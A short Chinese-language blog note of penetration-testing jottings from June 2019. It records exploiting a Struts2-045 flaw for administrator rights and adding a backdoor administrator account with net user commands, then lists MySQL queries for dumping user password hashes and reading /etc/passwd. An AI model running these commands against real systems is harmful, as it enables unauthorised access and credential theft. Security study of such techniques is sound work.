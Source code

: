 ```yaml
---
layout: post
comments: true
categories: notes
---
```


## 随记

### 2019/6/17
碰到.do结尾，首先测试struts，使用Lucifer的工具，经检测发现`存在目标存在struts2-045漏洞..[Windows]`,使用k8gege的exp进行利用，直接管理员权限。
```
net users
net user "Jack" xxyyzz /add
net localgroup administrators "Jack" /add
```
### 2019/6/21
- mysql密码查询

`select user,password from mysql.user`

`select user,password, from mysql.user where user = 'root'`

- mysql读取文件

`select load_file('/etc/passwd')`

- mysql查看目录

`select @@datadir`

`select @@basedir`



